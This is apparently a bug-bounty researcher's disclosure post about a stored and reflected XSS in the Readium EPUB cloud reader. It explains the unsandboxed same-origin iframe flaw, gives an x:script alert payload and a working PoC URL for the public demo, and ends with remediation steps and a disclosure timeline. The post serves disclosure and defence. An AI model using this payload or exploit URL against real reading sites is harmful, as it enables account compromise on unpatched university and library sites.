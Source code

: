 ```yaml
---
description: Stumbling upon an XSS paradise.
cover: >-
  https://images.unsplash.com/photo-1481627834876-b7833e8f5570?crop=entropy&cs=tinysrgb&fm=jpg&ixid=MnwxOTcwMjR8MHwxfHNlYXJjaHwxfHxsaWJyYXJ5fGVufDB8fHx8MTY3NDY3MTAyNw&ixlib=rb-4.0.3&q=80
coverY: 0
---
```


# ReadiumJS Cloud Reader - Everybody Gets an XSS!

## Introduction

Late last year, I participated in a bug bounty programme organized by Singapore's [Ministry of Defence (MINDEF)](https://www.mindef.gov.sg/) where I received the Top Bug Bounty Hunter award (yay!).

<figure><img src="../.gitbook/assets/cert (1).jpeg" alt=""><figcaption></figcaption></figure>

Finding these bugs required a deep dive into the targets and their underlying technologies. This meant that, among other things, I learnt about the existence of the [EPUB format](https://www.w3.org/AudioVideo/ebook/) and the world of EPUB cloud readers.

This led me to discover a (surprisingly, somewhat known) XSS vulnerability in the [Readium](https://github.com/readium) cloud reader that affects many university websites and online libraries.

<figure><img src="../.gitbook/assets/78utju.jpeg" alt=""><figcaption></figcaption></figure>

I have attempted to get in touch with the maintainers to remediate the issue, but have not yet received any response. Going by the conventional 90-day disclosure timeline, I am now sharing details on this vulnerability.

## What is an EPUB? What is a Readium?

The EPUB format is an XML-based ebook format created by the [International Digital Publishing Forum (IDPF)](https://idpf.org/). It is one of the major ebook formats around today. Unlike other proprietary formats such as Amazon's Kindle KF8, the EPUB format is vendor-independent.

The [Readium](https://readium.org/) project was started by IDPF, and is one of the cited EPUB readers on the [W3 website](https://www.w3.org/AudioVideo/ebook/).

<figure><img src="../.gitbook/assets/Screenshot 2023-01-26 at 10.31.10 PM.png" alt=""><figcaption></figcaption></figure>

To see it in action, we can visit the Readium cloud reader [demo](https://readium.firebaseapp.com/). We can quickly see that the cloud reader renders `iframe`s containing pages of the ebook.

<figure><img src="../.gitbook/assets/Screenshot 2023-01-26 at 11.00.24 PM.png" alt=""><figcaption></figcaption></figure>

Each page is fetched from the location indicated in `data-src` and converted into the final rendered HTML. The pages are XHTML files and are called EPUB [content documents](https://www.w3.org/publishing/epub3/epub-contentdocs.html). For example, page 1 of La Page Blanche contains the following content.

```markup
<?xml version="1.0" encoding="UTF-8"?>
<html xmlns="http://www.w3.org/1999/xhtml" xmlns:epub="http://www.idpf.org/2007/ops">
    <head>
        <meta charset="utf-8" />
        <meta name="viewport" content="width=1200, height=1577" />
        <title>La Page Blanche</title>
        <link href="../Style/style.css" type="text/css" rel="stylesheet" />
    </head>
    <body>
        <div class="page" epub:type="frontmatter titlepage"><img
                src="../Image/PageBlanche_Page_001.jpg" alt="page 1" /></div>
    </body>
</html>
```

## Popping Alerts

First of all, we could see that the `iframe` does not have the `sandbox` attribute present. This means that any scripts firing within the `iframe` would execute on the same origin as its `src`.

Readium will create a `Blob` containing the page data and create a new `blob:` URL for it ([source](https://github.com/readium/readium-js/blob/999d7c32bcdd1184bcc248312267c6e744d737b9/js/epub-fetch/iframe\_zip\_loader.js#L117-L125)). This is the URL that the frame `src` is set to ([source](https://github.com/readium/readium-js/blob/999d7c32bcdd1184bcc248312267c6e744d737b9/js/epub-fetch/iframe\_zip\_loader.js#L280-L281)).

```javascript
// prefer BlobBuilder as some browser supports Blob constructor but fails using it
if (window.BlobBuilder) {
    var builder = new BlobBuilder();
    builder.append(contentDocumentData);
    blob = builder.getBlob(contentType);
} else {
    blob = new Blob([contentDocumentData], {'type': contentType});
}
documentDataUri = window.URL.createObjectURL(blob);

...

if (isBlobHandled) {
    iframe.setAttribute("src", documentDataUri);
```

Unfortunately, this means that the `iframe`'s origin will always be that of the parent page.

<figure><img src="../.gitbook/assets/Screenshot 2023-01-26 at 11.43.55 PM.png" alt=""><figcaption></figcaption></figure>

### Stored XSS

Suppose we are able to upload an ebook to an online library using Readium. We might upload a malicious EPUB that runs some evil JavaScript. Any user that opens our ebook would then have their account compromised.

To create such an EPUB, I copied an example EPUB from the Readium demo and changed the home page. An example PoC can be found [here](https://github.com/zeyu2001/readium-xss).

Note that we are using `x:script` to make the payload work with XHTML parsers.

```markup
<!DOCTYPE html>

<html>
    <body>
        Hello world!
    </body>
    <x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(document.domain)</x:script>
</html>
```

### Reflected XSS

The above scenario requires us to have privileges on the target site to upload arbitrary EPUBs and serve them to other users. It turns out, however, that the cloud reader is able to load remote EPUBs as well.

The cloud reader uses [medialize/URI.js](https://github.com/medialize/URI.js) to normalize the `epub` query parameter, which is a relative URL ([source](https://github.com/readium/readium-js/blob/master/js/Readium.js#L171-L181)).

```javascript
ebookURL = new URI(ebookURL).absoluteTo(thisRootUrl).toString();
```

However, when `ebookURL` is an absolute URL, `absoluteTo` retains the original base URL.

<figure><img src="../.gitbook/assets/Screenshot 2023-01-27 at 12.05.21 AM.png" alt=""><figcaption></figcaption></figure>

This means that by simply passing our hosted exploit URL to the `epub` query parameter, we have a reflected XSS! This does not require us to have any permissions on the target site.

Using the example PoC on the Readium demo should pop an alert:

`https://readium.firebaseapp.com/?epub=https://zeyu2001.github.io/readium-xss/`

<figure><img src="../.gitbook/assets/Screenshot 2023-01-27 at 12.12.53 AM.png" alt=""><figcaption></figcaption></figure>

## Who Uses Readium?

The Readium cloud reader is a rather old project. While more recent and popular cloud readers have been developed, some sites still use the Readium cloud reader, including the IDPF's own website and several university sites.

I have made best effort attempts at identifying these sites (e.g. through Google dorking) and reaching out to the responsible teams to remediate this vulnerability before the release of this post.

The sites that have since remediated the vulnerability include the [University of Minnesota's College of Education and Human Development website](https://www.cehd.umn.edu/), which no longer contains the cloud reader page.

<figure><img src="../.gitbook/assets/Screenshot 2023-01-27 at 12.18.10 AM.png" alt=""><figcaption></figcaption></figure>

## Known Issue?

Interestingly, after doing some digging, I found that this was somewhat of a known issue. [This](https://readium.org/architecture/server/origin.html#serving-contents-in-the-web-context) documentation explains the issue.

> One should note that if a cloud reader aims to support JavaScript, all publications will at least share the same database, which means it is possible for an author to access data that originated in a different publication.

However, it leaves only the following suggestions to mitigate the vulnerability.

> Currently, the only options to protect against attacks (see "Security Concerns" section) are:
>
> * `iframe` sandboxing;
> * the Content Security Policy;
> * the Feature Policy.

These suggestions are _not_ implemented in the default installation of [readium-js-viewer](https://github.com/readium/readium-js-viewer).

## Remediation

Since this is quite an old project, the best remediation might be to move to a more modern cloud reader. If Readium needs to be used, the `iframe`s on the page should have the `sandbox` attribute set.

Additionally, the page's Content Security Policy can be used to restrict where scripts can be loaded from.

## Disclosure Timeline

* 11 October 2022: Contacted maintainers through OSS platform [huntr.dev](https://huntr.dev/)
* 16 December 2022: Contacted maintainers through GitHub issue
* 27 January 2022: This blog post is released
